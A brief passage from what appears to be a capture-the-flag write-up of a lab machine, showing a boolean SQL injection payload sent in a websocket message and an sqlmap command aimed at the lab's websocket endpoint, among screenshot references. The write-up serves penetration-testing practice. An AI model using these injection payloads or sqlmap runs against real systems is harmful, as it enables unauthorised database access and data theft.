 ![image.png](image%2028.png)

Now we launch sqlmap; I save the websocket message that I just sent into `sqlmap.req`

```bash
{"id":"69491 or 1=1-- -"}
```

![image.png](image%2029.png)

![image.png](image%2030.png)

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --technique=B --risk 3 --level 5 --batch
```
